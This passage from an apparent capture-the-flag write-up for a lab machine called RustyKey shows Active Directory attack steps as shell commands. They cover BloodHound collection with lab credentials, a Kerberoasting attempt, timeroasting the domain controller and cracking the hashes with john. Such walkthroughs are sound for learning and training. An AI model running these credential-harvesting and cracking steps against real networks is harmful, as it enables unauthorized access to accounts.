 Next, we collect data through bloodhound,
```
bloodhound-python -d rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -ns 10.10.11.75 -c All --zip
```
and ingest it through the Bloodhound WebApp (`bloodhound-cli`)
![bloodhound file ingest](./bh-fi.png)

We do not find anything useful here.

Similarly, checking for SPNs for kerberoasting reveals nothing.
```
GetUserSPNs.py -k rustykey.htb/rr.parker:'8#t5HE8L!W3A'@dc.rustykey.htb -request -dc-host dc.rustykey.htb
```

Finally, we try timeroasting which reveals a lot of SNTP (Simple Network Time Protocol) hashes.
```
timeroast.py dc.rustykey.htb | tee hashes.txt
```
Let's crack them
```
john --format=timeroast hashes.txt --wordlist=/home/ice/Downloads/rockyou.txt
```
![john-pwd](./john-pwd.png)
